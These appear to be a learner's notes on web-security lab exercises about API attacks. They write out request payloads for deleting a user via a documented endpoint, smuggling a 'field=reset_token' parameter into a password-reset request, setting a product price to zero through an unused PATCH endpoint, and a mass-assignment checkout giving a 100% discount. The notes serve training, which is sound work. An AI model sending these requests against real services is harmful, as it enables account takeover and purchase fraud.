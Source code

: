 ____

# Exploiting an API endpoint using documentation

```html
DELETE api/user/carlos
```

# Exploiting server-side parameter pollution in a query string

![[Pasted image 20240911045910.png]]

Adding the additional parameter `field` with variable `reset_token` in the POST request, leak the sensitive information to reset password token.

Attempt to truncate the server-side query string using a URL-encoded `#` character: %23

```
POST /forgot-password

csrf=EOaA9KP0jcmyGMZ9SJcknOViH7bSKzS5&username=administrator%26field=reset_token%23
```

# Finding and exploiting an unused API endpoint

OPTIONS /api/products/1/price

Allow: GET, PATCH

PATCH /api/products/1/price

"error":"Only 'application/json' Content-Type is supported"

Add Content-Type: application/json

"error":"'price' parameter missing in body"

```json
{
  "price":   0
}
```

# Exploiting a mass assignment vulnerability

POST /api/checkout

```json
{
  "chosen_discount": {
    "percentage": 100
  },
  "chosen_products": [
    {
      "product_id": "1",
      "name": "Lightweight \"l33t\" Leather Jacket",
      "quantity": 1,
      "item_price": 0
    }
  ]
}

```